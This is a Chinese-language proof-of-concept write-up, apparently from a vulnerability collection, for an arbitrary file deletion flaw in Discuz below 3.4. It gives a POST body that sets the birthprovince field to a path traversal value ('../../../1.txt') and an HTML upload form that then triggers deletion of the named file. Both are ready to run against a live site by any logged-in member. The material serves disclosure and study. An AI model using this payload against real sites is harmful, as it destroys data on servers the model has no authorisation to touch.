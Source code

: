 # Discuz_＜3.4_birthprovince_前台任意文件删除

## Affected Version

Discuz < 3.4 版本

需要会员身份登陆站点。

下载地址： 链接: https://pan.baidu.com/s/1hsOoSte 密码: nvjj


## PoC


测试：

1. 为了不破坏原有程序，在根目录下新建 1.txt 作为演示。

![](1.png)

2. 登陆前台，访问 http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base

先发起一个POST请求 

    birthprovince=../../../1.txt&profilesubmit=1&formhash=18a19dce
    // formhash 需要右键查看源代码得到

成功后，个人信息已经被修改成如下:

![](changed.png)

3. 最后，本地提交POST表单删除文件 1.txt

表单内容：

    <form action="http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
    <input type="file" name="birthprovince" id="file" />
    <input type="text" name="formhash" value="18a19dce"/></p>
    <input type="text" name="profilesubmit" value="1"/></p>
    <input type="submit" value="Submit" />
    </from>

随便上传一个图片提交会导致删除 birthprovince 设置的文件名称，在这里是 1.txt。

## References

1. http://www.freebuf.com/vuls/149904.html
2. http://www.freebuf.com/articles/system/149810.html

